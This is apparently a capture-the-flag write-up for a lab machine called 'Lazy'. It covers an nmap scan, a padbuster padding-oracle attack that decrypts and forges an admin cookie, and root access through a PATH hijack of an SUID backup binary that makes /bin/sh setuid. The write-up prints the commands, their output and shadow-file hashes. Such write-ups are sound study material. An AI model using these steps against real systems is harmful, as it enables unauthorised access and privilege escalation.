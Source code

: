 # Lazy

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 10.129.64.184                 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-19 14:11 +08
Nmap scan report for 10.129.64.184
Host is up (0.0075s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Did a detailed scan too:

```
$ nmap -p 80 -sC -sV --min-rate 4000 10.129.64.184 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-19 14:11 +08
Nmap scan report for 10.129.64.184
Host is up (0.011s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: CompanyDev
|_http-server-header: Apache/2.4.7 (Ubuntu)
```

Since only port 80 is open, we can proxy the traffic through Burpsuite.

### Web Enumeration -> Padding Oracle

The website shows a really basic company website:

<figure><img src="../../../.gitbook/assets/image (4155).png" alt=""><figcaption></figcaption></figure>

I created a user and logged in to view the same thing:

<figure><img src="../../../.gitbook/assets/image (4156).png" alt=""><figcaption></figcaption></figure>

In Burp, there appears to be a custom cookie being sent to the website called `auth`:

```http
GET /index.php HTTP/1.1
Host: 10.129.64.184
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.64.184/register.php
Connection: close
Cookie: auth=%2BJerWq%2FLA3RuOeAORmXt%2Bg7mwatyAe13
Upgrade-Insecure-Requests: 1

```

Although the website was written in PHP, this cookie was not the default PHP session cookie that was used. I tried to change a few parameters for it and found that the application returned a unique error:

<figure><img src="../../../.gitbook/assets/image (4157).png" alt=""><figcaption></figcaption></figure>

This is an obvious hint that we have to somehow use the **paddling oracle attack** for this. This attack basically gives us a computationally feasible way to brute force the plaintext byte by byte using the error. Here's a pretty good video from college that I used:

{% embed url="https://www.youtube.com/watch?v=4EgD4PEatA8" %}

We can attempt to decrypt this cookie using `padbuster`.&#x20;

```
$ padbuster http://10.129.64.184/index.php %2BJerWq%2FLA3RuOeAORmXt%2Bg7mwatyAe13 8 -cookies auth=%2BJerWq%2FLA3RuOeAORmXt%2Bg7mwatyAe13  -encoding 0

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 981

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 2 ***

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#     Freq    Status  Length  Location
-------------------------------------------------------
1       1       200     1133    N/A
2 **    255     200     15      N/A
-------------------------------------------------------
```

There seem to be 2 errors, 1 of which returns a length of 1133 and the rest are likely errors. I continued with test 2 since it had a higher frequency.

After a bit, `padbuster` returns the plaintext like this:

```
Block 2 Results:
[+] Cipher Text (HEX): 0ee6c1ab7201ed77
[+] Intermediate Bytes (HEX): 1a08d23d4261e9fe
[+] Plain Text: t123

-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): user=test123

[+] Decrypted value (HEX): 757365723D7465737431323304040404

[+] Decrypted value (Base64): dXNlcj10ZXN0MTIzBAQEBA==

-------------------------------------------------------
```

So the cookie decrypts to give us `user=test123`, and using `padbuster` again, we can encrypt it to something like `user=admin`. This would give us another cookie to work with:

```
$ padbuster http://10.129.64.184/index.php %2BJerWq%2FLA3RuOeAORmXt%2Bg7mwatyAe13 8 -cookies auth=%2BJerWq%2FLA3RuOeAORmXt%2Bg7mwatyAe13  -encoding 0 -plaintext user=admin
<TRUNCATED>
Block 1 Results:
[+] New Cipher Text (HEX): 0408ad19d62eba93
[+] Intermediate Bytes (HEX): 717bc86beb4fdefe

-------------------------------------------------------
** Finished ***

[+] Encrypted value is: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA
-------------------------------------------------------
```

When we access the website with this cookie, it tells us we are logged in as the administrator:

<figure><img src="../../../.gitbook/assets/image (4158).png" alt=""><figcaption></figcaption></figure>

It also gives us a private SSH key to `ssh` in as the `mitsos` user as indicated by the URL:

```
mysshkeywithnamemitsos
```

<figure><img src="../../../.gitbook/assets/image (4159).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Backup SUID -> PATH Hijack

We don't have the user's password, so we cannot check `sudo` privileges. The user's directory has an SUID binary:

```
mitsos@LazyClown:~$ ls -la
total 64
drwxr-xr-x 5 mitsos mitsos 4096 Dec  7  2021 .
drwxr-xr-x 3 root   root   4096 Dec  7  2021 ..
-rwsrwsr-x 1 root   root   7303 May  3  2017 backup
-rw------- 1 mitsos mitsos  224 May  3  2017 .bash_history
-rw-r--r-- 1 root   root      1 May  3  2017 .bash.history
-rw-r--r-- 1 mitsos mitsos  220 May  2  2017 .bash_logout
-rw-r--r-- 1 mitsos mitsos 3637 May  2  2017 .bashrc
drwx------ 2 mitsos mitsos 4096 Dec  7  2021 .cache
-rw-rw-r-- 1 mitsos mitsos    0 Dec  7  2021 cat
-rw------- 1 mitsos mitsos 2524 May  2  2017 .gdb_history
-rw-rw-r-- 1 mitsos mitsos   22 May  2  2017 .gdbinit
-rw------- 1 root   root     46 May  2  2017 .nano_history
drwxrwxr-x 4 mitsos mitsos 4096 Dec  7  2021 peda
-rw-r--r-- 1 mitsos mitsos  675 May  2  2017 .profile
drwxrwxr-x 2 mitsos mitsos 4096 Dec  7  2021 .ssh
-r--r--r-- 1 mitsos mitsos   33 Aug 19 09:38 user.txt
```

When used, it prints out the `/etc/shadow` contents:

{% code overflow="wrap" %}
```
mitsos@LazyClown:~$ ./backup 
root:$6$v1daFgo/$.7m9WXOoE4CKFdWvC.8A9aaQ334avEU8KHTmhjjGXMl0CTvZqRfNM5NO2/.7n2WtC58IUOMvLjHL0j4OsDPuL0:17288:0:99999:7:::
daemon:*:17016:0:99999:7:::
bin:*:17016:0:99999:7:::
sys:*:17016:0:99999:7:::
sync:*:17016:0:99999:7:::
games:*:17016:0:99999:7:::
man:*:17016:0:99999:7:::
lp:*:17016:0:99999:7:::
mail:*:17016:0:99999:7:::
news:*:17016:0:99999:7:::
uucp:*:17016:0:99999:7:::
proxy:*:17016:0:99999:7:::
www-data:*:17016:0:99999:7:::
backup:*:17016:0:99999:7:::
list:*:17016:0:99999:7:::
irc:*:17016:0:99999:7:::
gnats:*:17016:0:99999:7:::
nobody:*:17016:0:99999:7:::
libuuid:!:17016:0:99999:7:::
syslog:*:17016:0:99999:7:::
messagebus:*:17288:0:99999:7:::
landscape:*:17288:0:99999:7:::
mitsos:$6$LMSqqYD8$pqz8f/.wmOw3XwiLdqDuntwSrWy4P1hMYwc2MfZ70yA67pkjTaJgzbYaSgPlfnyCLLDDTDSoHJB99q2ky7lEB1:17288:0:99999:7:::
mysql:!:17288:0:99999:7:::
sshd:*:17288:0:99999:7:::
```
{% endcode %}

The hashes in this are normally not crackable, and I don't think the creator would be so kind to give us the `root` hash directly. The file was an ELF binary:

{% code overflow="wrap" %}
```
mitsos@LazyClown:~$ file backup
backup: setuid, setgid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=33d6b5bec96c44e630f37ff41cc1c4a8b2813b6b, not stripped
```
{% endcode %}

I used `ltrace` to see the functions used:

```
mitsos@LazyClown:~$ ltrace ./backup 
__libc_start_main(0x804841d, 1, 0xbffff7d4, 0x8048440 <unfinished ...>
system("cat /etc/shadow"cat: /etc/shadow: Permission denied
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                   = 256
```

This binary did not use the full path for the `cat` command, thus allowing us to create our own malicious binary within any directory to execute commands as `root`.&#x20;

To exploit this, execute the following commands:

```bash
cd /tmp
echo '#!/bin/sh' > cat
echo 'chmod u+s /bin/sh' >> cat
chmod 777 cat
export PATH=/tmp:$PATH
/home/mitsos/backup
```

<figure><img src="../../../.gitbook/assets/image (4161).png" alt=""><figcaption></figcaption></figure>

Rooted!
